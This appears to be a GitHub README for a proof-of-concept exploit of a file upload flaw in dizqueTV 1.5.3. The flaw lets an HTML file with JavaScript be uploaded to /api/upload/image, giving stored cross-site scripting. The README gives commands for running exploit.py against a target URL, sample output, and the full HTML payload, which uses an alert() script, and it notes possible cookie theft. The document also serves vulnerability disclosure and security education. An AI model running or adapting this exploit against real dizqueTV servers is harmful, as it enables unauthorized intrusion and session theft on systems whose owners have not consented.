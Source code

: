# dizqueTV File Upload to XSS Exploit

## Overview
This exploit targets a file upload vulnerability in **dizqueTV** version 1.5.3. Due to insufficient sanitization in the file upload API, an attacker can upload arbitrary files, enabling potential **Cross-Site Scripting (XSS)** attacks. This exploit leverages the vulnerability to upload a crafted HTML file with embedded JavaScript.

**Exploit Author**: J3rich0123  
**Tested on**: Linux  
**Vendor**: [dizqueTV GitHub Repository](https://github.com/vexorian/dizquetv)  
**Version**: 1.5.3 (Required)  
**CVE**: N/A

## Vulnerable Component
The vulnerability resides in the file upload endpoint at `/api/upload/image`, which does not sanitize file contents or enforce strict file type restrictions. This allows the upload of files containing malicious code.

## Exploit Details
The exploit script creates and uploads an HTML file with a JavaScript-based XSS payload. Once uploaded, this payload can trigger on pages that render the file, potentially allowing the attacker to perform actions like cookie theft or redirection.

## Usage
### Prerequisites
- Python 3.x
- `requests` library

To install the required library:
```bash
pip install requests
```

Exploit Execution

Clone this repository.

Execute the exploit with the target URL as an argument:

```bash
python exploit.py <target_url>
```

Example usage:

```bash
python exploit.py http://localhost:8000/api/upload/image
```

Upon success, you’ll see confirmation messages indicating the file upload was successful.

Note: If the file renders in a browser with JavaScript enabled, the XSS alert will be triggered.

Example Output
plaintext
Copy code
Reading malicious file: xss.html
Uploading malicious file: xss.html
Exploit successful! Attempted to upload: xss.html
Server response: (Server response message here)
PoC HTML Payload
The xss.html payload file created by this exploit contains:

html
Copy code
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Payload</title>
    <script>alert("Hacked!!!");</script>
</head>
<body>
    <h1>Testing XSS Payload</h1>
    <p>If the alert shows, the XSS attack was successful!</p>
</body>
</html>
Remediation
This vulnerability has been reported to the vendor, and a patch will be released in the next version. The patch will address file type sanitization and restrictions.

Disclaimer
This exploit is intended for educational and ethical purposes only. Unauthorized use of this exploit may violate laws and regulations. Use it responsibly.

